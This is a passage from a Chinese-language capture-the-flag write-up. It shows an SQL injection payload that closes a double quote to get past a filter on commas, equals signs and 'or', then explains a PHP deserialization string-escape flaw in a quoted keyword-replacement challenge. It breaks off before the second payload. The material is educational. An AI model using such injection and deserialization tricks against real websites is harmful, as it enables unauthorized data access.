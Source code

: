 第一层我做的非预期，fuzz过后，发现ban了逗号、等号、or

然后发现是双引号闭合

```
logname=1"||1 limit 1 offset 3#&logpass=1
回显：alert('Username:Flag_1s_heRe \nPassword:goto /flag327a6c4304a')
```

访问 `ip/flag327a6c4304a/` ，来到第二关：

```
<?php
include ('flag.php');
error_reporting(0);
function filter($payload){
    $key = array('php','flag','xdsec');
    $filter = '/'.implode('|',$key).'/i';
    return preg_replace($filter,'hack!!!!',$payload);
}

$payload=$_GET['payload'];
$fuck['mini']='nb666';
$fuck['V0n']='no_girlfriend';

if(isset($payload)) {
    if (strpos($payload, 'php') >=0 || strpos($payload, 'flag')>=0 || strpos($payload, 'xdsec')>=0) {
        $fuck['mini']=$payload;
        var_dump(filter(serialize($fuck)));
        $fuck=unserialize(filter(serialize($fuck)));
        var_dump($fuck);
        if ($fuck['V0n'] === 'has_girlfriend') {
            echo $flag;
        } else {
            echo 'fuck_no_girlfriend!!!';
        }
    }else{
        echo 'fuck_no_key!!!';
    }
}else{
    highlight_file(__FILE__);
}
```

题目会把序列化之后的 `php` `flag` `xdsec` 关键字替换为 `hack!!!!` 然后进行反序列化操作再赋值给 `$fuck` 我就直接想到了[安恒2020.4月赛](http://wh1sper.com/fakephp反序列化字符逃逸/)的web1，越看越像字符逃逸，不过有区别的是这里是字符变多导致后面的逃逸，不过思路一样：逃逸、闭合

我们的 `php` 关键字被替换为 `hack!!!!` 之后，从3个字符变成了5个字符，但是反序列化的时候由于 `s:3` 的存在，这个值仍然会被当作三个字符来处理，我们可以看到下图替换之后由于左边选中部分不一致，造成了反序列化后出现 `bool(false)` 的结果

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170547.png)

直接看payload就懂：

